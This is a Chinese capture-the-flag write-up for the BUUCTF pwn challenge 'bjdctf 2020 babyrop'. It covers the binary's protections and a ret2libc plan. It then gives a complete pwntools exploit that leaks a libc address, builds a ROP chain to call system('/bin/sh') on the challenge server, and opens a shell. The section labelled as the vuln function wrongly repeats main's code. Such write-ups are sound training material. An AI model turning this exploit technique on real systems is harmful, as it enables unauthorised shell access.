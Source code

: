 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop
date: 2022-3-22 21:20:03
permalink: /pages/2e1547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vuln();
  return 0;
}
```

vuln函数及函数表如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  vuln();
  return 0;
}
```



## 思路分析

1. 目前信息：
   - `vuln`函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的`ret2libc`，应先泄漏`libc`及函数地址，再利用泄漏的信息构造`payload`,执行获取`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
io = remote('node4.buuoj.cn', 28461)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x24+4
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400733
payload = flat(['a'*padding, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```